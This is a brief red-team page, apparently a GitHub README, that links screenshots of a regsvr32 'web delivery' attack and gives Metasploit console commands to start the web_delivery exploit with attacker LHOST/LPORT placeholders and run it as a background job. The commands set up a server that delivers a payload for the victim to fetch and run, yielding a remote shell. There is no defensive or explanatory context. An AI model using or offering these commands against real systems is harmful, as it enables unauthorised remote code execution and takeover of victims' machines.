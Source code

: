 # Red-Team

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_msf_webdelivery.png" width="600">

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_shell.png" width="600">

    use exploit/multi/script/web_delivery
    set LHOST <ip address>
    set LPORT <port>
    set target 2
    exploit -j
